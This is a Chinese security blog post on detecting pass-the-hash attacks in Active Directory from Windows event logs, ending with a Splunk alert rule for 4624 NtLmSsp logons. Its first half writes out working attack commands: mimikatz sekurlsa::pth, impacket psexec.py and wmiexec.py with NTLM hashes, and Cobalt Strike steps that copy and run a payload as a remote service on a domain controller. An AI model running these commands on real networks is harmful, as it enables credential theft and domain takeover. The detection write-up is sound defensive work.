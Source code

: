 #  基于AD Event日志检测哈希传递攻击

原创 Bypass [ Bypass ](javascript:void\(0\);)

**Bypass** ![]()

微信号 Bypass--

功能介绍 致力于分享原创高质量干货，包括但不限于：渗透测试、WAF绕过、代码审计、安全运维。 闻道有先后，术业有专攻，如是而已。

____

___发表于_

收录于合集

**01、简介**

哈希传递攻击是基于NTLM认证的一种攻击方式，当我们获得某个管理员用户的密码哈希值，就可以利用密码哈希值进行横向渗透。

在域环境中，只有域管理员的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。基于AD
Event日志如何检测哈希传递攻击，这个就是我们今天探讨的话题。

 **02、哈希传递攻击实例**

 **（1）使用mimikatz 进行哈希传递获取域控权限**

在域环境中，当我们获得了域管理员的NTLM哈希值，我们就可以访问域内任何一台服务器。

  *   *   *   * 

    
    
     #提权 privilege::debug #使用域管理员bypassu拍卖行及的NTLM值进行哈希传递攻击 sekurlsa::pth /user:bypass /domain:evil.com /ntlm:44f077e27f6fef69e7bd834c7242b040

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204539.png)

利用PsExec.exe来远程登录和执行命令

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204550.png)

 **（2）使用lmpacket工具包进行哈希传递获取域控权限**

lmpacket工具包集成了多个脚本，可用来进行哈希传递，如psexec.py、wmiexec.py。

  *   * 

    
    
    psexec.py  -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219wmiexec.py -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204551.png)

 **(3) 通过Cobalt strike进行pth横向获取域控权限**

在已上线的机器中，使用先前获取的hash对目标域控进行哈希传递攻击，获取域控权限。

哈希传递  

  *   * 

    
    
    pth evil\bypass 44f077e27f6fef69e7bd834c7242b040shell dir \\192.168.44.219\c$

获取系统权限

  *   *   *   * 

    
    
    shell copy  C:\Users\administrator\Desktop\artifact.exe \\192.168.44.219\c$shell sc \\192.168.44.219 create test binpath=C:\artifact.exeshell sc \\192.168.44.219 start testshell sc \\192.168.44.219 delete test

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204553.png)

 **03、哈希传递攻击检测**

哈希传递攻击的检测其实是比较困难的，因为它总是和正常的访问行为非常类似，我们需要从域控收集的大量的安全日志中找到需要关心的事件和具体的值。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204554.png)

分析：在使用NTLM凭证进行横向获取域控权限时，域控的日志中会记录4624登录事件，LogonType为3且登录进程为NtlmSsp，这里可以找到登录用户和登录源地址。为了能从正常的访问行为中，找出异常登录行为，我们可以设置白名单，将域控管理员和正常登录来源IP添加至白名单，关注关键用户的登录行为，排除干扰项。另外，当攻击者使用工具进行哈希传递的时候，比如使用psexec.py脚本进行哈希传递会同时产生多条LogonType为3且登录进程为NtlmSsp的日志，我们还可以将登录频率作为判断依据进行检测。

安全规则示例：

  *   * 

    
    
    eventtype=wineventlog_security   EventCode=4624   LogonProcessName=NtLmSsp   match_user!="*$"    src!="-"   match_user IN("administrator","bypass") | eval time=_time | bin time span=30m   | stats  count earliest(_time) AS start_time latest(_time) AS end_time values(src) as val_src  by time match_user  dest   | eval  start_time=strftime(start_time,"%F %T"),end_time=strftime(end_time,"%F %T")  | search count >5  | nomv val_src | eval message="在"+start_time+"到"+end_time+"时间内，域控服务器:"+dest +" 疑似遭受哈希传递攻击"+count+"次, 操作账号:"+match_user+" 操作来源ip:"+val_src| table  start_time   end_time  match_user message  count val_src  dest

告警效果如下图：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221208204556.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

